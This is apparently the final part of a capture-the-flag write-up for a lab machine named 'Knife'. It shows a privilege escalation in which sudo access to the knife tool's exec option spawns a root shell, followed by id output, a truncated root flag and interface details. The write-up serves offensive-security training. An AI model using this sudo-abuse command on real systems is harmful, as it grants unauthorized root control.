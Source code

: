 ```bash

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10923171  bytes 1938581473 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10923171  bytes 1938581473 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

![Pasted image 20210523005542.png]({{page.screenshots}}Pasted image 20210523005542.png)

Knife however also allows to **execute raw ruby code** using the **exec** parameter, allowing to execute arbitrary code with high privileges:
```bash
james@knife:/opt$ sudo /usr/bin/knife exec -E "exec '/bin/bash'"
root@knife:/opt# id && hostname && cat /root/root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
knife
6ae0ca51...
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2722013  bytes 412311064 (412.3 MB)
        RX errors 0  dropped 66  overruns 0  frame 0
        TX packets 2509092  bytes 1106488505 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10923171  bytes 1938581473 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10923171  bytes 1938581473 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Trophy
```
A knife is as good as the one who wields it
- Patrick Ness
```

{% include share.html %}
